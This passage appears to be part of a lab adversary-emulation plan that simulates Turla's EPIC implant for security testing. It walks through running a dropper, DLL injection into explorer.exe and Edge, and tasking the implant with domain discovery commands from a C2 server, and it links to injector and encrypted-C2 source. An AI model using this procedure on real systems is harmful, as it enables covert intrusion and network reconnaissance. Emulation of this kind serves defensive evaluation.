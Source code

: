 * Open File Explorer > Downloads

* Double click on the downloaded `NFVersion_5e.exe` to run it.

* Wait 1 minute for it to finish running.

* Close out of all tabs and sign out of your RDP session.

* Re-RDP to `Azuolas (10.100.40.103)` as `Egle`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Egle  | Producer1! |

* Open Microsoft Edge and browse to `https://drebule.nk.local/owa`. Log in as `Egle`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Egle  | Producer1! |

:arrow_right: **Set a timer for 2 minutes** then switch to your Kali control server terminal and
confirm that a new implant has registered and the automated discovery output has been returned in
the server log.

**NOTE:** The injector will wait **2 minutes**, before injecting EPIC's Guard DLL into explorer.exe
and, subsequently, EPIC's worker DLL into Microsoft Edge.

* Within the terminal window, split your terminal horizontally via right-click -> split terminal. Be careful not to accidentally terminate the control server.

* In your lower terminal tab, task the EPIC implant with the following set of discovery commands:

```bash
cd /opt/day2/turla/Resources/control_server
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | systeminfo && net group "Domain Computers" /domain'
```

---

### :moyai: Source Code

* [EPIC Dropper](../../Resources/EPIC/SimpleDropper)
  * [File write of EPIC injector](../../Resources/EPIC/SimpleDropper/SimpleDropper/Source.cpp#L34-L50)
  * [Registry modification](../../Resources/EPIC/SimpleDropper/SimpleDropper/Source.cpp#L95-L143)
* [EPIC Injector](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/)
  * Extract EPIC Guard DLL from resources section [FindResourceW](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/Source.cpp#L161-L193)
  * Targeting explorer.exe for [DLL injection](../../Resources/EPIC/Defense-Evasion/reflective_injector/reflective_injector/Source.cpp#L199-L233)
* [EPIC Guard](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/)
  * Extract EPIC payload DLL from resources section [FindResourceW](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/dllmain.cpp#L161-L193)
  * Targeting svchost.exe for payload [DLL injection](../../Resources/EPIC/Defense-Evasion/reflective-guard/reflective-guard/dllmain.cpp#L235-L283)
* [EPIC Payload](../../Resources/EPIC/payload/) (in msedge.exe)
  * Execute commands [ExecCmd](../../Resources/EPIC/payload/src/epic.cpp#L47-L71)
  * User discovery [GetAllUsers](../../Resources/EPIC/payload/src/epic.cpp#L111-L182)
  * Directory discovery [DirectoryDiscovery](../../Resources/EPIC/payload/src/epic.cpp#L257-L298)
  * Write results to log file [WriteResults](../../Resources/EPIC/payload/src/epic.cpp#L311-L345)
  * C2 communications are:
    * [bzip2 compressed](../../Resources/EPIC/payload/src/comms.cpp#L462-L469)
    * [AES encrypted](../../Resources/EPIC/payload/src/comms.cpp#L483-L484)
    * [RSA encrypted AES key](../../Resources/EPIC/payload/src/comms.cpp#L487-L497)
    * [base64 encoded](../../Resources/EPIC/payload/src/comms.cpp#L505)
  * C2 communications are over [HTTPS](../../Resources/EPIC/payload/src/comms.cpp#L421-L458), [HTTPS specific flags](../../Resources/EPIC/payload/src/comms.cpp#L167-L196)
